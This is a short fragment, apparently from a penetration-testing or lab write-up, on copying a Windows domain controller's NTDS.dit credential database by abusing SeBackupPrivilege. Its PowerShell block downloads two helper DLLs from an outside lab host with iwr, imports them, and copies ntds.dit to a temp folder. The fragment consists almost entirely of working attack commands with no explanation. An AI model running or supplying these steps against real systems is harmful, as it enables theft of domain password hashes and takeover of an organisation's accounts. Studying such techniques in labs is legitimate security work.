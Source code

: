 ![image-20221211180453371](./images/image-20221211180453371.png)



copy ntds file, way 1  [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

upload dll and copy

```bash
iwr -uri http://10.10.14.90/SeBackupPrivilegeCmdLets.dll -outfile SeBackupPrivilegeCmdLets.dll
iwr -uri http://10.10.14.90/SeBackupPrivilegeUtils.dll -outfile SeBackupPrivilegeUtils.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege F:\Windows\NTDS\ntds.dit c:\temp\ntds.dit
```
